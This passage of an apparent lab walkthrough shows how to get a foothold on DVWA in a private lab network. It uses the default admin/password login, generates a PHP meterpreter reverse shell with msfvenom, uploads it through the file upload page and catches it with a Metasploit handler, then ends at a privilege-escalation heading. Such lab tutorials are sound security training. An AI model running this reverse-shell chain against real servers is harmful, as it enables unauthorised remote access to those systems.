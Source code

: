    - Username: `admin`
   - Password: `password`

4. **Set DVWA Security Level to Low**:

   - Go to the “DVWA Security” tab
   - Set security level to **Low** and submit

5. **Navigate to File Upload Tab**

   - Click on “Upload” in the DVWA sidebar

6. **Generate a PHP Reverse Shell**: Use msfvenom to generate the payload:

   ```bash
   msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.174.130 LPORT=4444 -f raw -o shell.php
   ```

7. **Upload the Reverse Shell**:

   - Upload `shell.php` to the DVWA Upload page
   - Confirm the message: `../../hackable/uploads/shell.php successfully uploaded!`

8. **Navigate to the Uploaded Shell**: Visit:

   ```
   http://192.168.174.128/dvwa/hackable/uploads/shell.php
   ```

   If it returns `*/` or is blank, the PHP code is being processed.

9. **Set Up the Listener on Kali**:

- Run the below command and wait for msfconsole to start
   ```bash
   msfconsole
   ```

- Then run the below commands with your Kali IP
  ```bash
   use exploit/multi/handler
   set payload php/meterpreter_reverse_tcp
   set LHOST 192.168.174.130
   set LPORT 4444
   run
   ```

10. **Trigger the Shell**:

    - Reload the shell.php page (`http://192.168.174.128/dvwa/hackable/uploads/shell.php`)
    - Meterpreter session should open:
      ```
      meterpreter >
      ```

11. **Congrats — You Have Foothold!** Now you can proceed with privilege escalation.

---

## 🔧 Part 2: Privilege Escalation with linPEAS
